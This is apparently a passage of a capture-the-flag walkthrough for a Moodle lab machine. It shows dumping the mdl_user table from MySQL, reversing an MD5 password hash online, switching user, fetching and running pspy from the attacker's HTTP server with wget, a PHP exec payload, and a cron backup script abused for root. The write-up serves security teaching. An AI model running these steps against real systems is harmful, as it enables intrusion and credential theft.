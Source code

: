 ```
mysql -u root -p
```
![image](assets/85214722-0666d180-b33d-11ea-8a22-d00519a3c212.png)

I ran a command to show databases (show databses;), selected moodle (use moodle;), showed tables (show tables;), and output all records for mdl_users (select * from mdl_user;). I found what looked like an MD5 hash

![image](assets/85214739-53e33e80-b33d-11ea-9dcb-ff3b158e881b.png)

I did an internet search for the hash and found that a site had it already reversed. **expelled**

![image](assets/85214752-842add00-b33d-11ea-86f9-9c17eb882d03.png)

I used the command su log in as giovanni

![image](assets/85214841-6ad66080-b33e-11ea-8b25-e0e74b7bb705.png)

```
while true; do pid=$(pgrep 'backup.sh' | head -1); if [[ -n "$pid" ]]; then strace  -s 2000 -vvtf -p "$pid"; break; fi; done
```
```
<?php echo exec('id > /tmp/b.txt'); ?>
```

## Steps (root/system)

Reviewing giovanni's home directory I found a folder called work which contained a file called backup_courses.tar.gz.

![image](assets/85214866-d02a5180-b33e-11ea-9880-6726760f7fea.png)

To see if any cron jobs were running I decided to us pspy so I copied it to my working directory and started a python http server

```
cp ~/tools/pspy/pspy32 .
sudo python3 -m http.server 80
```

Wget was used to copy pspy32 to the target and run it

```
wget http://10.10.14.21/pspy32
chmod +x pspy32 && ./pspy32
```

I saw that a file called backup.sh was being run

![image](assets/85214851-98230e80-b33e-11ea-88ed-a84eba8ede4e.png)

Taking a look at backup.sh
```
#!/bin/bash
cd /home/giovanni/work;
tar -czvf tmp/backup_courses.tar.gz courses/*;
cd tmp;
tar -xf backup_courses.tar.gz;
chmod 777 * -R;
```
